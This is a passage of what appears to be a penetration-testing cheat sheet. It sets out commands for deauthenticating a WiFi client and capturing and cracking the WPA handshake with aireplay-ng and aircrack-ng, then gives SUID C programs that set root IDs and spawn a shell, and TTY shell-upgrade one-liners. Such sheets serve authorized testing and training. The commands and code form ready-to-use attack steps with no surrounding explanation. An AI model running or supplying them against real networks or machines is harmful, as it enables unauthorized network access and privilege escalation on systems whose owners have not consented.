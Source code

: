     #we are waiting to capture the handshake, it will written in the header
    #we can make it faster by DEAUTH which means kicking a connected user and while he re-auth we will capture the handshake
    #in a new terminal:
    aireplay-ng -0 1 -a MAC_OF_THE_NETWORK -c MAC_OF_THE_STATION_CONNECTED wlan0mon
    ls capture*
    aircrack-ng -w wordlist.txt -b MAC_OF_THE_NETWORK CAPTUREFILE #could be done also with hashcat
    #phone numbers are very common as a password

    ```

Shells & Reverse Shells
------------------------------------------------------------

SUID C Shells
------------------------------------------------------------

- bin/bash:

```
int main(void){

setresuid(0, 0, 0);

system("/bin/bash");

}
```

- bin/sh:

```
int main(void){

setresuid(0, 0, 0);

system("/bin/sh");

}
```

TTY Shell:
------------------------------------------------------------

```bash
python -c 'import pty;pty.spawn("/bin/bash")' #Python TTY Shell Trick
```

```bash
echo os.system('/bin/bash')
```

```bash
/bin/sh –i #Spawn Interactive sh shell
```

```bash
execute('/bin/sh')
```
